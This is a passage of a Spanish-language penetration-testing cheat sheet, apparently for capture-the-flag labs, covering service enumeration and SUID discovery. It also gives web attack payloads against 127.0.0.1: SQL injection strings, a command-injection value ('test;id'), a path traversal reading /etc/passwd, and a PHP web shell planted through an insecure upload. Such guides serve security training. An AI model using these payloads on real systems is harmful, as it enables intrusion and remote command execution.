 ### 2.3 SMB/FTP/SSH
```bash
# SMB
testparm -s 2>/dev/null | sed -n '1,80p'
# FTP banner
echo | nc -nv 127.0.0.1 21
# SSH config
grep -E 'PermitRootLogin|PasswordAuthentication' /etc/ssh/sshd_config
```

### 2.4 Binarios propios / SUID
```bash
file /opt/* /usr/local/bin/* 2>/dev/null | grep -E 'ELF|script'
ldd /opt/app 2>/dev/null
strings -n 8 /opt/app 2>/dev/null | head -n 50
find / -xdev -perm -4000 -type f 2>/dev/null
```

---

## 3) Encontrar la vulnerabilidad (tu mina de oro)
Enfócate en **1–2 superficies** con mayor probabilidad:
- Web con inputs poco validados (SQLi, LFI, Command Injection, Upload).
- Servicio con **credenciales por defecto**.
- Binario SUID vulnerable (buffer overflow / path hijacking).

### 3.1 Pruebas rápidas de SQLi (curl)
```bash
# Reemplaza endpoint y parámetro
curl -s "http://127.0.0.1/item.php?id=1' OR '1'='1-- -" | head
# Boolean-based (compara tamaños de respuesta)
curl -s "http://127.0.0.1/item.php?id=1 AND 1=1" | wc -c
curl -s "http://127.0.0.1/item.php?id=1 AND 1=2" | wc -c
```

### 3.2 Prueba de command injection
```bash
curl -G --data-urlencode "name=test;id" http://127.0.0.1/ping.php
```

### 3.3 LFI
```bash
curl "http://127.0.0.1/view?file=../../../../etc/passwd"
```

### 3.4 Upload inseguro
- Sube `<?php system($_GET['cmd']); ?>` como `x.php` o `x.php.jpg` y llama:
  ```bash
  curl "http://127.0.0.1/uploads/x.php?cmd=id"
  ```

---
